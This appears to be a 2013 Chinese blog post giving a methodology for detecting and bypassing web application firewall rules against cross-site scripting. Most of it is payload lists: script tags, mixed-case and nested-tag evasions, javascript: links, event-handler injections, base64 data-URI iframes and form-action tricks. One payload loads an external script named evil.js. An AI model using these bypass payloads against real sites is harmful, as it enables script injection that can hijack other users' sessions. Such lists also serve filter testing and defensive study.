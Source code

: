```yaml
---
layout: post
title: XSS现代WAF规则探测及绕过技术
date: 2013-12-09 11:21:04
tags: XSS
---
```


1、使用无害的payload，类似`<b>`,`<i>`,`<u>`观察响应，判断应用程序是否被HTML编码，是否标签被过滤，是否过滤<>等等；

2、如果过滤闭合标签，尝试无闭合标签的`payload（<b,<i,<marquee）`观察响应；

3、尝试以下的payload
```
<script>alert(1);</script>
<script>prompt(1);</script>
<script>confirm      (1);</script>
<script src="http://rhainfosec.com/evil.js">
```
判断是否触发过滤规则，尝试使用大小写混合字符
```
<scRiPt>alert(1);</scrIPt>
```
1、如果大小写不行的话，`<script>`被过滤尝试`<scr<script>ipt>alert(1)</scr<script>ipt>`；

2、使用`<a>`标签测试
```
    <a  href=“http://www.google.com">Clickme</a>
```
`<a`被过滤？

`href`被过滤？

其他内容被过滤？

如果没有过滤尝试使用`<a href=”javascript:alert(1)”>Clickme</a>`

尝试使用错误的事件查看过滤`<a href=”rhainfosec.com” onclimbatree=alert(1)>ClickHere</a>`

HTML5拥有150个事件处理函数，可以多尝试其他函数`<body/onhashchange=alert(1)><a href=#>clickit`

 

测试其他标签

src属性
```
    <img src=x      onerror=prompt(1);>
    <img/src=aaa.jpg      onerror=prompt(1);
    <video src=x      onerror=prompt(1);>
    <audio src=x      onerror=prompt(1);>
```
iframe
```
    <iframesrc="javascript:alert(2)">
    <iframe/src="data:text&sol;html;&Tab;base64&NewLine;,PGJvZHkgb25sb2FkPWFsZXJ0KDEpPg==">
```
Embed
```
    <embed/src=//goo.gl/nlX0P>
```
Action
```
    <form action="Javascript:alert(1)"><input type=submit>
    <isindex action="javascript:alert(1)" type=image>
    <isindex action=j&Tab;a&Tab;vas&Tab;c&Tab;r&Tab;ipt:alert(1) type=image>
    <isindex action=data:text/html, type=image>
```
mario验证
```
    <formaction=&#039;data:text&sol;html,&lt;script&gt;alert(1)&lt/script&gt&#039;><button>CLICK
```